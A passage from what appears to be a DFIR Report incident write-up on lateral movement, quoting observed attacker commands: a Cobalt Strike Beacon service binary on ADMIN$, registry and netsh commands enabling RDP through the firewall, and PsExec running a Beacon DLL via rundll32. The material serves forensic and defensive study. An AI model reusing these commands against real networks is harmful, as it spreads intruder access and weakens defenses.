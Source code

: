 



### Lateral Movement


The threat actor began lateral movement using remote execution of Cobalt Strike Beacon service binaries.







```
Image: C:\Windows\system32\services.exe   
TargetObject: HKLM\System\CurrentControlSet\Services\d8d6deb\ImagePath   
Details: \\HOSTNAME\ADMIN$\d8d6deb.exe 
```

![](https://thedfirreport.com/wp-content/uploads/2021/05/2-2.png)


[![](https://thedfirreport.com/wp-content/uploads/2021/05/3584-2.png)](https://thedfirreport.com/wp-content/uploads/2021/05/3584-2.png)


After this initial activity, Cobalt Strike was used to enable RDP, and allow it through the firewall, on the domain controllers.







```
cmd.exe /C reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG\_DWORD /d 0x0 /f   
cmd.exe /C netsh firewall set service type = remotedesktop mode = enable   
cmd.exe /C netsh firewall set rule group="remote desktop" new enable=Yes   
cmd.exe /C netsh advfirewall set rule group="remote desktop" new enable=Yes 
```





Following this, the threat actors then copied a Cobalt Strike Beacon DLL to the ADMIN$ share; and then, distributed it throughout the environment using [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec).



```
cmd.exe /C copy 192145.dll \\<INTERNAL\_IP>\ADMIN$ /Y /Z   
psexec.exe -accepteula -d -s \\<INTERNAL\_IP> rundll32.exe C:\windows\192145.dll,StartW 
```

![](https://thedfirreport.com/wp-content/uploads/2021/05/3.png)


[![](https://thedfirreport.com/wp-content/uploads/2021/05/image-17.png)](https://thedfirreport.com/wp-content/uploads/2021/05/image-17.png)
